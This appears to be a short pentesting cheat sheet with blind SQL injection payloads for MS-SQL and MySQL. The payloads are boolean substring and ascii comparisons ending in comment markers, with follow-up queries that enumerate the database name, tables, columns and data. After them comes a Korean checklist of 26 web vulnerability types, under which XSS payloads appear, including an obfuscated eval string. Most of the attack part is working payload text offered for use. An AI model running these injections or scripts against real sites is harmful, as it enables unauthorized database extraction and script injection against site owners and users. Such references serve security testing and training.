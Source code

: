 <MS-SQL> <br>
#Shape <br>
select * from board where Title='//' and substring((query), 1, 1) < 'a'--<br>
???' and substring((query), 1, 1) < 'a'--<br>
<br>
#get DB NAME <br>
db_name() <br>
<br>
#Get Table name <br>
select top 1 name from sysobjects where xtype='U' <br>
<br>
#Get Column name <br>
select top 1 column_name from information_schema.columns where table_name = '[Table Name]' <br>
<br>
#Get Data <br>
select top 1 [Column Name] from [Table Name] <br>
<br>
<br>
<br>
<MySQL> <br>
???' and ascii(substring((query), 1, 1)) > 'a'# <br>
<br>
#Get Table Name <br>
select table_name from information_schema.tables where table_type='base table' limit 0,1 <br>
                                                                                     ㄴ> 0번 째 테이블 <br>
  



-----------------------------------------------------------------------------------
1. 관리자페이지 접근통제 및 계정관리
2. 사용자 접근통제 및 로그관리
3. 사용자 비밀번호 관리
4. 비인가 페이지 접근
5. 파라미터 변조 취약점
6. 암호화
7. 소스코드 속
8. 검색엔진 robot
9. HTTP Method
10. Direcory Listing
11. 취약한 세션 및 쿠키 인증
12. Buffer Overflow
13. Format String
14. 시스템 명령어 실행 취약점
15. 파일 다운로드 
16. 파일 업로드
17. 파일 Include
18. 악성 스크립트 XSS, CSRF

`<img src="#" onmouseover="alert(1);">

<img src="#" onerror="alert(1);">

<img onclick='var a="aler"+"t(al"+"ert"+"(1));";eval(a);'>`
19. 악성 콘텐츠 html
20. 웹페이지 오류정보 처리
21. 웹서버 백업파일 관리
22. 취약한 게시판 프로그램, 웹어플리케이션
23. SQL Injection
24. SSI Injection
25. XML 취약점
26. LDAP Injection
